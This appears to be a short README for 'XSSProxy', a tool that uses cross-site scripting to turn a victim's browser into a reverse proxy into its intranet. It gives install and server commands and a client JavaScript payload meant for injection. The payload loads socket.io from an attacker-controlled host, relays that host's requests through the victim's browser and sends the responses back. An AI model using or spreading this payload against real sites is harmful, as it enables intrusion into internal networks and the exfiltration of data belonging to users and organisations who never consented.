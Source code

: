 # XSSProxy (Alpha version)

  A XSS based reverse proxy,be used for cross the intranet via XSS.

## Install
`npm install -g xssproxy`

## Usage
Server:
```command
xssproxy
xssproxy -p 8000 -sp 8001
xssproxy --port 8000 --sio-port 8001
```

client:
```javascript
var script = document.createElement('script');
script.onload = function(){
  var socket = io('http://xssproxy:8001');
  socket.on('request', function (data,send) {
      var xhr = new XMLHttpRequest;
      xhr.open(data.method,data.url); 
      xhr.onload=function(){send(this.responseText);};
      xhr.send();
  }); 
};
script.src = 'http://xssproxy:8001/socket.io/socket.io.js';
document.head.appendChild(script);
```

